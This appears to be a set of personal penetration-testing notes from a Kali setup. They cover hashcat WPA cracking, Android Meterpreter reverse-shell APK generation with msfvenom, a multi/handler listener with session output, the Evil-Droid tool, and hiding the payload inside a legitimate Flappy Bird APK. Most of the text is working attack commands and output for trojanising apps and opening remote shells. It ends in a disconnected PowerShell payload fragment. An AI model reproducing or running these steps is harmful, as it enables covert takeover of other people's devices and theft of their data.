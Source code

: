 #### Hashcat
- native on kali
- `hascat --help` list options, including hashmodes
`hashcat -a 0 -m 2500 <file>.hccapx <password file>`
- -a : attack mode
- -m : hash mode (example wpa)
- need to convert .cap to .hccapx

# Get accesss to android device
## option 1 : setup android vm
- use virtualbox
- get android vm's vdi file : https://www.osboxes.org/android-x86/ untar file
- chose "other linux 64bits" and use .vdi disk
- display settings : may need to increase video memory and change graphics controller

## option 2 : use regular android phone
- create meterpreter payload :
`msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.23 LPORT=4447 -o reverse_tcp.apk`

- start web server :
```
┌──(kali㉿kali)-[~]
└─$ sudo service apache2 start
[sudo] password for kali: 
```
- setup listener with msfconsole
```
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.1.23
set LPORT 4447
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.1.23:4447 
[*] Sending stage (78179 bytes) to 192.168.1.10
[*] Meterpreter session 1 opened (192.168.1.23:4447 -> 192.168.1.10:47787) at 2022-09-21 10:17:31 +0200

```
# Evil-droid
- `git clone https://github.com/M4sc3r4n0/Evil-Droid`
- cd Evil-Droid
- chmod +x evil-droid
- sudo ./evil-droid
- select option 1 + option=android/meterpreter/reverse_tcp + multi-handler

# obfuscate payload apk with legimitme apk (example : flappy bird game apk)
- get flappy-bird apk : https://flappy-bird.en.uptodown.com/android
```
┌──(kali㉿kali)-[~/dev/exploits_files]
└─$ sudo msfvenom -x flappy-bird-1-3-en-android.apk -p android/meterpreter/reverse_tcp LHOST=192.168.1.23 LPORT=5555 -o flappybird.apk
Using APK template: flappy-bird-1-3-en-android.apk
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
Error: apksigner not found. If it's not in your PATH, please add it.
```
- install apksigner

[powershell/meterpreter/rev_tcp>>]: set SLEEP 42
[powershell/meterpreter/rev_tcp>>]: set LHOST <kali ip>
[powershell/meterpreter/rev_tcp>>]: generate